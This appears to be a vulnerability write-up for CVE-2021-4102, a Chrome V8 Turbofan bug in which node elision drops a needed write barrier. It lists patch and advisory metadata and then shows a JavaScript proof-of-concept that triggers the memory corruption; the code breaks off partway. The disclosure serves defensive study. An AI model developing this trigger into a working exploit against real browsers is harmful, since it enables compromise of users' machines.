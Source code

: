 # CVE-2021-4102: Chrome incorrect node elision in Turbofan leads to unexpected WriteBarrier elision
Brendon Tiszka, Chrome

## The Basics

**Disclosure or Patch Date:** December 13, 2021

**Product:** Google Chrome

**Advisory:** https://chromereleases.googleblog.com/2021/12/stable-channel-update-for-desktop_13.html

**Affected Versions:** pre 96.0.4664.110

**First Patched Version:** 96.0.4664.110

**Issue/Bug Report:** [crbug.com/1278387](https://crbug.com/1278387)

**Patch CL:** https://chromium-review.googlesource.com/c/v8/v8/+/3329790

**Bug-Introducing CL:** https://codereview.chromium.org/1908093002

**Reporter(s):**  Anonymous

## The Code

**Proof-of-concepts:**

```javascript
let mark_sweep = () => {
    new ArrayBuffer(2**34);
}

let scavenge = () => {
    let ref = new ArrayBuffer(16777216);
    ref = new ArrayBuffer(1);
    ref = new ArrayBuffer(1);
    ref = null;
}

function noop() {}

{
    // Ensure `o` is a non-const signed field
    var o = {'a':5};
    o.a = 5;

    // Move `o` to OldSpace
    mark_sweep();
    var b;
    function opt() {
        var a1;
        for (var i = 0; i < 2; i++) {
            b = i + -0;
            a1 = Math.abs(b);
            for (var j = 0; j < 2; j++) {}
            for (i = 0; i < 2; i++) {}
            o.a = Math.abs(a1);
            noop();
        }
    }
    %PrepareFunctionForOptimization(opt);
    opt();
    opt();
    %OptimizeFunctionOnNextCall(opt);
```